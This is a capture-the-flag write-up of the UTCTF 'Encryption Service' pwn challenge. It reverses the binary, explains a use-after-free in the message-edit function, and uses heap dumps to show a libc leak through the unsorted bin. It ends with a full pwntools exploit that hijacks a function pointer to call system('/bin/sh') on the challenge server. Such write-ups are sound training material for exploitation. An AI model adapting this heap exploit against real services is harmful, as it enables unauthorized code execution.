







# UTCTF

## Encryption Service

## Information

**Category** | **Points** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 1200 | 11 | [merrychap](https://github.com/merrychap)

**Description:** 

> nc stack.overflow.fail 9004

**Files:**

[pwnable](./pwnable)

[libc](./libc-2.23.so)

## General information

<p align="center">
  
</p>

Very charming description, the legend is unbelievable. But who needs normal description, when there is a binary? :D

Alright, let's run it and see what this thing does...

<p align="center">
  
</p>

Some kind of an encryption service where we can create messages, encrypt them and produce some other actions. We need to explore the functionality a little bit deeper. I will cover each function with a screenshot and some comments. But of course, you can explore it on your own by reversing the binary or just opening [pseudocode](./pseudocode.c) that I have done for you! :)

## Reversing the binary

### main

<p align="center">
  
</p>

Everything is straightforward: we're asked for some `user_id` (which will be used later in `xor_encrypt`), then we enter while-true loop where can produce actions. Absolutely clear.

### encrypt_string

<p align="center">
  
</p>

In the beginning, we're asked to enter an encryption option: either OTP or XOR. I will not cover their functionality, you can check it in the [pseudocode](./pseudocode.c). After this, the program searches for a free `info` chunk inside of `create_info` function, if it wasn't found, then it calls `malloc` in order to create a new chunk for storing info about this entity. The structure looks as follows:

```c
struct info_t {
    char *msg_ptr; /* pointer to the message chunk */
    char *enc_msg; /* pointer to the encrypted message chunk */
    const char (*encrypt_func)(char * msg, char *key); /* pointer to the encryption function */ 
    int (*print_func)(void); /* pointer to the print function */
    int is_free; /* is this chunk available to reuse */
    int msg_len; /* length of the message */
};
```

Now, we need to notice one interesting case. If the program calls `malloc` for new info structure and we enter incorrect encryption option (neither 1 nor 2), then it returns from the function. But chunk is allocated. We will use it later, so keep this in mind.

When encryption option is chosen, we need to enter message size and the message itself, then program calls encryption function and encrypts entered message.

### remove_encrypted_string

<p align="center">
  
</p>

Just enter an index of the message to remove and it's removed, i.e. `is_free` flag is set and `msg_ptr` and `enc_msg` are freed. But the program doesn't clear fields of the structure itself. It can be useful.

### view_messages

<p align="center">
  
</p>

Iterates through messages, checks if this `info` structure is presented in the information array, then checks if this info struct isn't free, i.e. is taken for some message and prints the data. Okay, looks legit.

### edit_encrypted_message

<p align="center">
  
</p>

We're asked to enter the index of the message we want to edit, then it takes the corresponding info structure and checks if this struct is valid. And this place is where the main vuln is presented. The program doesn't check `is_free` flag, so we can edit already freed `info` struct. Hence, this task is about UAF vulnerability


## Leak a libc address

Let's call `encrypt_message` with message size equal to 0x100. This will create 3 chunks on a heap:

- the first chunk is `info` structure

- the second chunk is the message (size is 0x110)

- the third chunk is the encrypted message (size is 0x110)

After this, we need to create another one message, here we don't care about sizes. Heap layout is the following:

```
0x7fc1b98ce000:	0x0000000000000000	0x0000000000000031 <-- 1 info struct
0x7fc1b98ce010:	0x00007fc1b98ce040	0x00007fc1b98ce150
0x7fc1b98ce020:	0x000000000040093c	0x0000000000400887
0x7fc1b98ce030:	0x0000010100000000	0x0000000000000111 <-- msg_ptr of the 1 info struct
0x7fc1b98ce040:	0x0000000a41414141	0x0000000000000000
0x7fc1b98ce050:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce060:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce070:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce080:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce090:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0a0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0b0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0c0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0d0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0e0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0f0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce100:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce110:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce120:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce130:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce140:	0x0000000000000000	0x0000000000000111 <-- enc_msg of the 1 info struct
0x7fc1b98ce150:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce160:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce170:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce180:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce190:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1a0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1b0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1c0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1d0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1e0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1f0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce200:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce210:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce220:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce230:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce240:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce250:	0x0000000000000000	0x0000000000000031 <-- 2 info struct
0x7fc1b98ce260:	0x00007fc1b98ce290	0x00007fc1b98ce300
0x7fc1b98ce270:	0x000000000040093c	0x0000000000400887
```


And then let's free the first `info` struct. Its `msg_ptr` and `enc_msg` will be placed in the unsorted bin and they will be coalesced. So, heap layout will be like this:

```
0x7fc1b98ce000:	0x0000000000000000	0x0000000000000031 <-- 1 info struct
0x7fc1b98ce010:	0x00007fc1b98ce040	0x00007fc1b98ce150
0x7fc1b98ce020:	0x000000000040093c	0x0000000000400887
0x7fc1b98ce030:	0x0000010100000001	0x0000000000000221 <-- coalesced msg_ptr and enc_msg
0x7fc1b98ce040:	0x00007fc1b9430b78	0x00007fc1b9430b78
0x7fc1b98ce050:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce060:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce070:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce080:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce090:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0a0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0b0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0c0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0d0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0e0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0f0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce100:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce110:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce120:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce130:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce140:	0x0000000000000110	0x0000000000000110
0x7fc1b98ce150:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce160:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce170:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce180:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce190:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1a0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1b0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1c0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1d0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1e0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1f0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce200:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce210:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce220:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce230:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce240:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce250:	0x0000000000000220	0x0000000000000030 <-- 2 info struct
0x7fc1b98ce260:	0x00007fc1b98ce290	0x00007fc1b98ce300
0x7fc1b98ce270:	0x000000000040093c	0x0000000000400887
```

`fd` and `bk` of an unsorted bin chunk point to someplace in main arena which is part of libc. If we leak these addresses, then we leak libc address itself (offsets are static). But what's more interesting, if we tear unsorted bin chunk in order to serve `malloc` using this unsorted bin chunk, main arena addresses will be placed in the newly allocated chunk in `fd` and `bk`. So, if we allocate a new message with size equal to 0, then we leak libc address. Look at the heap layout after calling `encrypt_message` with message size equal to 0.

```
0x7fc1b98ce000:	0x0000000000000000	0x0000000000000031 <-- 1 info struct
0x7fc1b98ce010:	0x00007fc1b98ce040	0x00007fc1b98ce060
0x7fc1b98ce020:	0x000000000040093c	0x0000000000400887
0x7fc1b98ce030:	0x0000000100000000	0x0000000000000021 <-- new msg_ptr of the 1 info struct
0x7fc1b98ce040:	0x00007fc1b9430d00	0x00007fc1b9430d88
0x7fc1b98ce050:	0x0000000000000000	0x0000000000000021 <-- new enc_msg of the 1 info struct
0x7fc1b98ce060:	0x00000fb1c9337d70	0x00007fc1b9430b78
0x7fc1b98ce070:	0x0000000000000000	0x00000000000001e1 <-- remaining of the unsorted bin chunk
0x7fc1b98ce080:	0x00007fc1b9430b78	0x00007fc1b9430b78
0x7fc1b98ce090:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0a0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0b0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0c0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0d0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0e0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0f0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce100:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce110:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce120:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce130:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce140:	0x0000000000000110	0x0000000000000110
0x7fc1b98ce150:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce160:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce170:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce180:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce190:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1a0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1b0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1c0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1d0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1e0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1f0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce200:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce210:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce220:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce230:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce240:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce250:	0x00000000000001e0	0x0000000000000030 <-- 2 info struct
0x7fc1b98ce260:	0x00007fc1b98ce290	0x00007fc1b98ce300
0x7fc1b98ce270:	0x000000000040093c	0x0000000000400887
```

Now we can call `view_messages` and leak libc address. Okay, this is nice, now we need to think about the exploitation knowing the libc address.

## Getting the shell

After we get the base address of libc, then we want to call `system("/bin/sh")`, but how we can do this? Well, this is simple. Do you remember we have UAF vulnerability? Now we will use this :)

Let's call `encrypt_message` with the message size equal to 0x20. It will create `msg_ptr` and `enc_msg` chunks with size equals 0x30. And this is the size of `info` struct chunk. Now we will produce interesting actions:

- Remove this message calling `remove_encrypted_string`. Now we have two empty 0x30 chunks.

- Create a new chunk with any message size. `info` struct chunk now in the `enc_msg` chunk that was freed in the previous step.

- Now we will edit previous `info` struct chunk and this will change the new `info` chunk because this is `enc_msg` of the previous one.

Almost done, right? :D Just change `encrypt_function` with the address of `system` and `msg_ptr` with `/bin/sh` address. Then call `edit_encrypted_message` and it will spawn the shell!

### Exploit

[The final exploit](./exploit.py) I came up with is the next:

```python
from pwn import *


def bxor(s, b):
    res = ''
    for x in s:
        res += chr(ord(x) ^ b)
    return res


def sxor(a, b):
    res = ''
    for x, y in zip(a, b):
        res += chr(ord(x) ^ ord(y))
    return res


def encrypt(pc, option, size, msg):
    pc.sendlineafter('>', '1')
    pc.sendlineafter('Choose an encryption option:', str(option))
    if option not in [1, 2]:
        return
    pc.sendlineafter('How long is your message?', str(size))
    if size == 0:
        return
    pc.sendlineafter('Please enter your message: ', msg)


def remove(pc, index):
    pc.sendlineafter('>', '2')
    pc.sendlineafter('Enter the index of the message that you want to remove: ', str(index))


def view(pc):
    pc.sendlineafter('>', '3')


def edit(pc, index, new_msg):
    pc.sendlineafter('>', '4')
    pc.sendlineafter('Enter the index of the message that you wish to edit', str(index))
    pc.sendlineafter('Enter the new message', new_msg)    


def main():
    libc = ELF('./libc-2.23.so')

    pc = remote('stack.overflow.fail', 9004)

    pc.sendlineafter('What is your user id?', str(0x70))

    encrypt(pc, 2, 0x100, 'AAAA')
    encrypt(pc, 2, 0x60, 'BBBB')

    remove(pc, 0)

    # putting libc addresses into msg_ptr
    encrypt(pc, 2, 0, '')

    view(pc)
    for _ in range(11):
        pc.recvline()
    main_arena = u64(bxor(pc.recvline()[12:-1], 0x70).ljust(8, '\x00'))
    libc_base = main_arena - 0x3c4d00
    binsh = libc_base + next(libc.search('/bin/sh'))
    system = libc_base + libc.symbols['system']
    log.success('libc base @ ' + hex(libc_base))

    encrypt(pc, 2, 0x20, 'A' * 0x20)
    remove(pc, 2)
    
    # filling up other info structs which will
    # be allocated tearing the unsorted bin chunk
    encrypt(pc, 3, 0, '')
    encrypt(pc, 3, 0, '')
    encrypt(pc, 3, 0, '')

    # write desired info into 4th chunk
    edit(pc, 2, p64(binsh) + p64(0) + p64(system) + p64(0))
    
    # trigger system("/bin/sh")
    edit(pc, 4, '')

    pc.interactive()


if __name__ == '__main__':
    main()
```

This was a typical heap challenge and I would say this is a medium-level task, but still interesting, thanks admins!

> Flag: utflag{pat1lw1llyw0nkalikesc0de}